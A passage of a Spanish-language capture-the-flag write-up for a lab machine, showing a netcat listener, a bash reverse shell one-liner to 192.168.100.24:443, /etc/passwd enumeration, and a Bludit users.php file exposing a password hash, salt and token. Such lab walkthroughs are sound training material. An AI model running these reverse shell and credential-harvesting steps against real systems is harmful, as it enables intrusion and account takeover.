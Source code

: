Ahora para tener una consola interactiva fuera de metasploit nos ponemos en escucha:
```bash
nc -nlvp 443
```

Ejecutamos desde metasploit el siguiente comando:
```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.100.24/443 <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion de usuarios del sistema
cat /etc/passwd | grep "sh"
root:x:0:0:root:/root:/bin/bash
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
JaulaCon2025:x:1001:1001::/home/JaulaCon2025:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
Listando los archivos tenemso lo siguiente:
```bash
ls -la databases/

drwxr-xr-x 3 www-data www-data    4096 Mar 25 19:57 .
drwxr-xr-x 7 www-data www-data    4096 Mar 25 19:34 ..
-rw-r--r-- 1 www-data www-data     442 Aug  1 20:57 categories.php
-rw-r--r-- 1 www-data www-data    2331 Aug  1 20:57 pages.php
drwxr-xr-x 7 www-data www-data    4096 Mar 25 19:34 plugins
-rw-r--r-- 1 www-data www-data 1045489 Aug  1 20:13 security.php
-rw-r--r-- 1 www-data www-data    1430 Mar 26 12:39 site.php
-rw-r--r-- 1 www-data www-data    2344 Aug  1 20:57 syslog.php
-rw-r--r-- 1 www-data www-data      52 Aug  1 20:57 tags.php
-rw-r--r-- 1 www-data www-data    1892 Aug  1 20:27 users.php
```

Tenemso un archivo **users** que si miramos su contenido
```php
"JaulaCon2025": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "551211bcd6ef18e32742a73fcb85430b",
        "salt": "jejej",
        "email": "",
        "registered": "2025-03-25 19:43:25",
        "tokenRemember": "",
        "tokenAuth": "d1ed37a30b769e2e48123c3efaa1e357",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
```